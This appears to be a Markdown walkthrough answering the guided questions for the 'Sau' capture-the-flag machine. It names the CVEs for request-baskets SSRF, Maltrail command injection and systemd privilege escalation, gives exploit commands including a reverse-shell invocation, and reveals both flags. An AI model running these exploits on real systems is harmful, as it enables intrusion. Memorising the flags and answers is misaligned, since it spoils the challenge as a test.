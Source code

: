 ## Guided:
**Q:** Which is the highest open TCP port on the target machine?<br>
**A:** 55555

**Q:** What is the name of the open source software that the application on 55555 is "powered by"?<br>
**A:** request-baskets<br>
> (can be seen at the bottom of the web-page on port 55555)

**Q:** What is the version of request-baskets running on Sau?<br>
**A:** 1.2.1

**Q:** What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?<br>
**A:** CVE-2023-27163 <br>
> [CVE-2023-27163](https://sploitus.com/exploit?id=6BAA524E-16EA-562C-804B-113B8244C6EA)<br>
> `./CVE-2023-27163.sh -t http://<Target-IP>:55555 -a http://127.0.0.1:80`
 

**Q:** What is the name of the software that the application running on port 80 is "powered by"?<br>
**A:** Maltrail       (v.0.53)

**Q:** There is an unauthenticated command injection vulnerability in MailTrail v0.53. What is the relative path targeted by this exploit?<br>
**A:** /login<br>
> [Hint](https://github.com/spookier/Maltrail-v0.53-Exploit)<br>
> `python3 exploit.py <my-ip> <my-port> http://10.129.229.26:55555/aiwqmw`

**Q:** What user is the Mailtrack application running as on Sau?<br>
**A:** Puma

**Q:** Submit the flag located in the puma user's home directory.<br>
**A:** 6e1deb15f20758d7a87c185c5ceafba0

**Q:** What is the full path to the application the user puma can run as root on Sau?<br>
**A:** /usr/bin/systemctl

**Q:** What is the full version string for the instance of systemd installed on Sau?<br>
**A:** systemd 245 (245.4-4ubuntu3.22)
> `systemd --version` |or| `systemctl --version`

**Q:** What is the CVE ID for a local privilege escalation vulnerability that affects that particular systemd version?<br>
**A:** CVE-2023-26604 <br>
> Note: Found this [gem](https://packetstormsecurity.com/files/174130/systemd-246-Local-Root-Privilege-Escalation.html)

**Q:** Submit the flag located in the root user's home directory.<br>
**A:** f71ed79c4dc47ebebb5a63c2a2b2e31e

